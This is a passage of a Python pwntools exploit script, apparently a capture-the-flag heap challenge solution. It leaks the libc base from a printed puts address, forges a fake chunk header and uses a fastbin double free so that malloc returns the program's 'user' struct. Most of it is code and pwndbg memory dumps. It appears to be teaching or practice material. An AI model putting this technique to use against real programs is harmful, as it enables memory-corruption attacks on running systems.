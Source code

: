 ```python
    io.sendline(f"{idx}")
    
# -- Exploit goes here --

io = start()

io.recvuntil(b'puts() @ ')

puts = io.recvline() # 0x7a03db46faf0
libc.address = int(puts, 16) - libc.sym.puts
log.success(f"libc base @ {hex(libc.address)}")

io.recvuntil(b'username:')

# io.sendline(b'AAAAAAAA') # This makes it look like  0000000000602010     4141414141414141 000000000000000a
io.sendline(p64(0xdeadbeef) + p64(0x31))

"""
pwndbg> dq &user
0000000000602010     00000000deadbeef 0000000000000031
0000000000602020     0058585858585858 0000000000000000
"""

"""
1) malloc 0/7
2) free
3) target
4) quit
> 
"""

idx = 0
A = malloc(0x28, b'A'*0x28) # 0
B = malloc(0x28, b'B'*0x28) # 1

free(A) # free chunk A
free(B) # Intermediate free to bypass double free check
free(A) # double free chunk A

"""
fastbins
0x30: 0x603000 —▸ 0x603030 ◂— 0x603000
        A      ->   B      ->  A
"""

user = exe.sym['user']
log.success(f"`struct user` @ {hex(user)}")

malloc(0x28, p64(user)) # 2 -> 0x603000
"""
fastbins
0x30: 0x603030 —▸ 0x603000 —▸ 0x602010 (user) ◂— 0x58585858585858 /* 'XXXXXXX' */
        B      ->   A      -> user
"""

"""
pwndbg> dq 0x603000
0000000000603000     0000000000000000 0000000000000031
0000000000603010     0000000000602010 414141414141410a
"""

"""
```